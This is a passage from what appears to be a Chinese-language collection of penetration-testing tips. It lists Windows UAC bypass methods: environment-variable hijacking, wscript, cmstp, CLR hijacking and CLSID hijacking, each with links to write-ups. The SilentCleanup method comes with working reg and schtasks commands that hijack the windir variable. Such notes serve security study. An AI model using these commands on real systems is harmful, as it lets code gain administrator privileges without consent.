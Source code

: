 适用Win8,Win10

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

参考：

[《Study Notes of using SilentCleanup to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-using-SilentCleanup-to-bypass-UAC/)

#### 方法4：use wscript.exe 

只适用于Win7

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1

参考：

[《Empire中的Invoke-WScriptBypassUAC利用分析》](https://3gstudent.github.io/3gstudent.github.io/Empire%E4%B8%AD%E7%9A%84Invoke-WScriptBypassUAC%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

#### 方法5：use cmstp.exe

https://msitpros.com/?p=3960

适用于Win7

#### 方法5：修改环境变量，劫持高权限.Net程序

适用Win7-Win10

如gpedit.msc

修改环境变量，利用CLR劫持gpedit.msc的启动过程

参考：

[《Use CLR to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-bypass-UAC/)

#### 方法6：修改注册表HKCU\Software\Classes\CLSID，劫持高权限程序

适用Win7-Win10

- {B29D466A-857D-35BA-8712-A758861BFEA1}
- {D5AB5662-131D-453D-88C8-9BBA87502ADE}
- {0A29FF9E-7F9C-4437-8B11-F424491E3931}
- {CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}

参考：

[《Use CLR to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-bypass-UAC/)

---

### Tips 32. Visual Studio生成的exe或是dll在其他系统使用，提示缺少相关DLL文件

解放方法：
